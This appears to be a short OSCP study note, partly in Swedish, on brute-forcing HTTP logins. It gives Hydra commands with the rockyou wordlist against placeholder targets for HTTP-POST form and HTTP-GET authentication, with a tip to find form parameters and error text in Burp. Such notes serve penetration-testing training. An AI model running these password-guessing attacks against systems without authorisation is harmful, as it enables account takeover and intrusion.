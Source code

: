 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/7. Password Attacks/2. HTTP Login Attack/"}
---
```



### HTTP-POST Attack:
1. Använd Burp för att ta reda på 1. Parameternamnen för inloggningen, och 2. Errortexten vid misslyckad inloggning
2. Exempel Hydra:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/index.php:user=username&password=^PASS^:Login failed. Invalid"
```

### HTTP-GET Attack:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 80 -f <ip> http-get
```
